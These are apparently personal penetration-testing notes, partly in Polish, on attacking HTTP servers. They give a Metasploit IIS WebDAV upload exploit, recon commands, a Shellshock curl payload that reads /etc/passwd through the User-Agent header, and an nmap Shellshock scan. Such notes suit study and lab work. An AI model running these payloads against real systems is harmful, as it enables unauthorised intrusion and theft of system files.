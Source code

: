 ```bash
use exploit/windows/iis/iis_webdav_upload_asp
setg PATH /webdav/metsploit.asp # pamiętać o zmianie ścieżki
```


# HTTP web server (T:80)

## $ msf
![[Metasploit#HTTP]]
## $ whatweb

```bash
$ whatweb <IP>
```

## $ http

```bash
$ http <IP>
```

## $ browsh

```bash
$ browsh --startup-url http://10.0.29.163/Default.aspx
```

# HTTP file server (T:80)

# Apache Web Server (T:80/443)
Free and open source cross-platform web server released under the Apache License 2.0. Apache accounts for over 80% of web servers globally.

## Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable
```

## $ nmap>Shellshock

payload przemycany najczęściej w nagłówku `User-Agent`

```bash
$ nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin[,cmd=ls] <target>
```
